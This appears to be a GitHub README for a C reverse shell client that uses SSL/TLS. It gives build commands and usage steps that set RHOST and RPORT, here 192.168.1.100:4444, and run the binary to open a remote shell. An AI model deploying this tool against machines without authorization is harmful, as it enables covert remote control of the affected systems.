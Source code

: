 # Reverse Shell Client

A simple reverse shell client written in C that connects to a specified remote server over an SSL/TLS connection. 
It can be used for secure remote shell access to a target machine. 

## Features

- **Secure Connection**: Utilizes SSL/TLS for encrypted communication between client and server.
- **Cross-Protocol Support**: Works with both IPv4 and IPv6.
- **Timeout Handling**: Configurable socket timeout to handle connection issues.
- **Signal Handling**: Gracefully exits on interrupt signals.
- **Dynamic Shell Spawning**: Launches a shell on the remote server upon successful connection.

## Prerequisites

- **OpenSSL**: Required for SSL/TLS functionality.
- **GCC**: For compiling the C source code.
- **Make**: Optional, for building with a Makefile.

## Installation

1. **Clone the Repository**:
   ```bash
	git clone git@github.com:Umair-khurshid/Reverse-Shell-Client.git
	cd Reverse-Shell-Client
   ```
   
2. **Install Dependencies (for Ubuntu/Debian)**:

```bash
	sudo apt-get update
	sudo apt-get install libssl-dev gcc make
```

3. **Compile the Program**:
```bash
	gcc -Wall -o RemoteShellClient main.c -lssl -lcrypto
```

## Usage
1. **Set Environment Variables**:

```bash
export RHOST="192.168.1.100"  # Replace with the target IP address or domain
export RPORT="4444"           # Replace with the target port
```
2. **Run the Program**:

```bash
./RemoteShellClient
```


## Troubleshooting
- **Connection Issues**: Ensure the remote server is accessible and listening on the specified port.
- **SSL/TLS Errors**: Verify that OpenSSL is correctly installed and configured on both the client and server.
- **Compilation Errors**: Ensure all dependencies are installed and that you are using the correct version of GCC and OpenSSL.


## Disclaimer
_This tool is intended for educational purposes and ethical use only. Unauthorized use or deployment on networks or systems without explicit permission is illegal and unethical. Always ensure you have proper authorization before using this tool._



